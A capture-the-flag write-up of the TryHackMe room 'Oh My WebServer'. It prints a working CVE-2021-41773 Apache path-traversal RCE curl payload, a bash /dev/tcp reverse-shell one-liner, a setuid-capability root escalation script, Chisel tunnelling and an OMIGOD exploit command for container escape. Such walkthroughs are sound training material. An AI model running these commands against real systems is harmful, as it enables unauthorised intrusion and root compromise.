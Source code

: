 # Oh My WebServer
https://tryhackme.com/room/ohmyweb | IP=10.10.5.164 | 2022-03-07


## Machine Recon
```
┌──(kali㉿kali)-[~/]
└─$ rustscan -a $IP --ulimit 5000 
Open 10.10.5.164:22
Open 10.10.5.164:80

┌──(kali㉿kali)-[~/]
└─$ nmap -sC -sV $IP -p 22,80
22/tcp open  ssh   OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http   Apache httpd 2.4.49 ((Unix))
```
*Note: some unimportant data was stripped*


## Web Server Recon
- Nikto scan - Nothing helpful (`nikto -h http://$IP/`)
- GoBuster scan:
```sh
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://$IP/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 32 -x php,txt,html

/index.html           (Status: 200) [Size: 57985]
/assets               (Status: 301) [Size: 234]
```

So manual enumeration of the site led me to see it's a simple static site - There was nothing I could exploit there.
However, when I tried looking in the /assets path, I was able to view directories and files. However, there wasn't anything interesting there.
I tried going another route. I looked up the version of the Apache server to see if it's vulnerable. And to my surprise it was! (CVE-2021-41773 | File traversal & RCE) 

So I crafted a payload for RCE using the CVE:
```sh
curl -v "http://$IP/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash" -d 'echo Content-Type: text/plain; echo; cat /etc/passwd' -H "Content-Type: text/plain"
```
And it managed to print the /etc/passwd
I used this RCE to make a reverse shell - `bash -i >& /dev/tcp/10.18.7.30/4444 0>&1`


## Reverse Shell
After gaining the reverse shell, I stabilized the connection via [[Stabilize Reverse Shell]].

After running linpeas. It found multiple interesting things.
1. This web-server is inside a container.
2. gcc is installed on the machine.
3. Current capabilities - `Current: = cap_chown`
4. Files with capabilities - `/usr/bin/python3.7 = cap_setuid+ep`

With this info I assume I can write a small script to launch bash with root permissions. So I wrote up

```python
import os

os.setuid(0) # Change user ID to root
os.system('/bin/bash -p') # Run shell as the current user (root)

```
Then I ran it with the vuln app - `python3.7 code.py` and got root on the container.
Going to `/root` I found the user flag.


## Docker Escape
After some manual enumeration that didn't lead anywhere, I've guessed that maybe the host computer for the docker has an internal ip, so I transferred [[Chisel]] to the server, to scan it's internal network with nmap.
```
root@4a70924bafa0:/tmp# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.2  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:ac:11:00:02  txqueuelen 0  (Ethernet)
```
I found the internal IP of the docker was `172.17.0.2` and the subnet mask was `255.255.0.0`.

Using all this info I started Chisel on my machine: `chisel server -p 3334 --reverse`
Connected with the client to my host: `./chisel client 10.18.7.30:3334 R:socks`
And nmap scanned the internal network - I stripped out irrelevant info:
```
┌──(kali㉿kali)-[~]
└─$ proxychains nmap 172.17.0.0/16                                                                                         
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.17.0.1:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.17.0.2:80  ...  OK
```

That's it! I've found the real server's internal address - `172.17.0.1`

*edit: At this point I've realized from a friend I can just transfer a static executable of nmap to the server instead of tunneling my connection. This way the entire scanning process would be much faster!*

Scanning the host computer:
```
root@4a70924bafa0:/tmp# ./nmap 172.17.0.1 -p- --min-rate 5000

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2022-03-07 17:09 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Stats: 0:00:26 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 65.86% done; ETC: 17:10 (0:00:13 remaining)
Nmap scan report for ip-172-17-0-1.eu-west-1.compute.internal (172.17.0.1)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (-0.0014s latency).
Not shown: 65531 filtered ports
PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   open   http
5985/tcp closed unknown
5986/tcp open   unknown
MAC Address: 02:42:F0:5F:04:30 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 39.72 seconds
```

Hmm, that's weird? Port 5986 is open. That's the port for WinRM.
I looked up CVEs for this, and found a vulnerability called OMIGOD (CVE-2021-38647 – Unauthenticated RCE as root)
I found a script online on GitHub that utilized this CVE: https://github.com/horizon3ai/CVE-2021-38647
Running the script I managed to read the root flag on the host machine
```
root@4a70924bafa0:/tmp# python3 omigod.py -t 172.17.0.1 -c "cat /root/root.txt"
THM{<redacted>}
```

Overall super fun machine. Pretty hard as well :)
